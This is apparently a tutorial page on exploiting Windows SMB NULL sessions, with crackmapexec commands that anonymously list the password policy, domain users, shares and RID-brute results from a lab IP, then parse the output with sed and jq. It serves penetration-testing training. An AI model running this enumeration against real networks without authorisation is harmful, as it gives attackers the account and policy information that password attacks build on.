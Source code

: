 ## Exploiting NULL Sessions

A [NULL Session](https://en.wikipedia.org/wiki/Null_session) is an anonymous connection to an inter-process communication network service on Windows-based computers. The service is designed to allow named pipe connections but may be used by attackers to gather information about the system remotely.

When a target is vulnerable to a **NULL Session**, especially a domain controller, it will allow the attacker to gather information without having a valid domain account, such as: 

- Domain users (**--users**)
- Domain groups (**--groups**)
- Pasword policy (**--pass-pol**)
- Share folders (**--shares**)

### Enumerating the Password Policy 

```
$ crackmapexec smb 10.129.209.144 -u '' -p '' --pass-pol
$ sed -i "s/'/\"/g" passpol.txt
$ cat passpol.txt
$ cat passpol.txt | jq

```

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-pol.png) 

- If we want to export this list we can use **--export [OUTPUT_FULL_FILE_PATH]**. In the following example we will use **$(pwd)** to use the current path: 


![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-1.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-2.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/pass-3.png) 


### Enumerating Users 

```

$ crackmapexec smb 10.129.209.144 -u '' -p '' --users --export $(pwd)/users.txt 
$ sed -i "s/'/\"/g" users.txt
$ jq -r '.[]' users.txt > userlist.txt
$ cat userlist.txt

```


![Exploiting SMB](/Exploiting-NULL-Sessions/images/users.png) 

![Exploiting SMB](/Exploiting-NULL-Sessions/images/users-1.png) 


### Enumerating Users with --rid-brute 

```
$ crackmapexec 10.129.207.144 -u '' -p '' --rid-brute 
$ crackmapexec 10.129.207.144 -u '' -p '' --shares 
$ crackmapexec 10.129.207.144 -u Guest -p '' --shares 

```

![Exploiting SMB](/Exploiting-NULL-Sessions/images/rid-share.png) 
